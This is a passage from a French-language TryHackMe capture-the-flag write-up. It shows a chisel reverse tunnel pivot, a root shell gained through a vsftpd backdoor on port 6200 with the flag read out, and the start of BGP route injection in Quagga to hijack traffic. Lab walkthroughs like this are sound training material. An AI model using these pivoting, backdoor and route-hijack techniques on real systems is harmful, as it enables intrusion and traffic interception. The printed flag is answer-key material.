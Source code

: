 
On voit que le backdoor passe par le port 6200.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chisel server -p 8999 --host 10.9.228.66 --reverse -v
(remote) www-data@app.ctx.ctf:/tmp$ ./chisel client http://10.9.228.66:8999 R:6200:172.16.1.128:6200  &
```

On redirige le port 6200.  

**What is the flag in the /root/ directory of router1? {FLAG:Router1:XXX}**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ncat 127.0.0.1 8999
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd root
ls
flag.txt
vsftpd
cat flag.txt
{FLAG:Router1:c877f00ce2b886446395150589166dcd}
```

On se connecte sur le backdoor. 
Dans le répertoire root on trouve un fichier flag.txt.  
On lit le fichier et on trouve le flag qui est : {FLAG:Router1:c877f00ce2b886446395150589166dcd}.  

**What flag is transmitted from flag_server to flag_client over UDP? {FLAG:UDP:XXX}**
**What flag is transmitted from flag_server to flag_client over TCP? {FLAG:TCP:XXX}**

```bash
ping -c 2 router2
PING router2 (172.16.12.102): 56 data bytes
64 bytes from 172.16.12.102: seq=0 ttl=64 time=0.062 ms
64 bytes from 172.16.12.102: seq=1 ttl=64 time=0.066 ms

--- router2 ping statistics ---


ping -c 2 router3
PING router3 (172.16.31.103): 56 data bytes
64 bytes from 172.16.31.103: seq=0 ttl=64 time=0.061 ms
64 bytes from 172.16.31.103: seq=1 ttl=64 time=0.068 ms

--- router3 ping statistics ---

```

Avec la commande ping on trouve les 2 adresses ip des routeur2 et routeur3.  

``` bash
vtysh

Hello, this is Quagga (version 1.2.4).
Copyright 1996-2005 Kunihiro Ishiguro, et al.
router1.ctx.ctf# config terminal
config terminal

router1.ctx.ctf(config)# router bgp 60001 
router bgp 60001 

router1.ctx.ctf(config-router)# network 172.16.2.0/25
network 172.16.2.0/25
router1.ctx.ctf(config-router)# network 172.16.3.0/25
network 172.16.3.0/25

```